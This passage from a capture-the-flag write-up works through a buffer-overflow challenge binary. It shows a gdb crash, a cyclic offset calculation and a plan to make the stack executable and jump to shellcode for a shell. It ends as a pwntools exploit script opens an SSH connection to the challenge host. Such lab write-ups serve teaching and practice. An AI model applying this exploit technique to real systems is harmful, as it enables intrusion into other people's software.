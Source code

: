 ```
gdb-peda$ ! rm ./fifo; mkfifo ./fifo
gdb-peda$ r ./fifo
Starting program: ./pwn ./fifo
The file has been saved successfully

Program received signal SIGSEGV, Segmentation fault.

[...]
gdb-peda$ print $eip
$3 = (void (*)()) 0x61687062
```

and in another terminal

```
$ cyclic -c i386 4600 > ./fifo
$ cyclic -c i386 -l 0x61687062
4124
```

Now let's create a working exploit. Let's see if the binary contains something
interesting we can jump to:

```
[0x08048d2a]> afl~system
[0x08048d2a]> afl~exec
0x0809e580  88    6     sym._dl_make_stack_executable
0x080bc800  315   18    sym.execute_cfa_program
0x080bd940  100   3     sym.execute_stack_op
```

OK so apparently because the program doesn't use any of the system or exec
functions, the linker threw them away. No luck there. But this
`_dl_make_stack_executable` functions seems useful. A quick search revealed the
following blog post on the radare blog:
[Defeating baby_rop with radare2](http://radare.today/posts/defeating-baby_rop-with-radare2/)

The setting is basically the same. Statically linked binary with no interesting
functions in the binary. We could ROP our way to the `execve` syscall manually,
but that seems tedious. I adapted the exploit from the blog post.

 1. call `_dl_make_stack_executable`
 2. jump to payload with `call esp` gadget.
 3. get shell

Here is the final exploit

```python
#!/usr/bin/env python

from pwn import *  # NOQA
import subprocess

context.log_level = 'debug'
context.arch = 'i386'

vbin = "./pwn"
s = None


def connect():
    global s
    s = ssh(host="securefilereader.quals.nuitduhack.com",
            user="chall",
            password="chall",
            port=55552)


```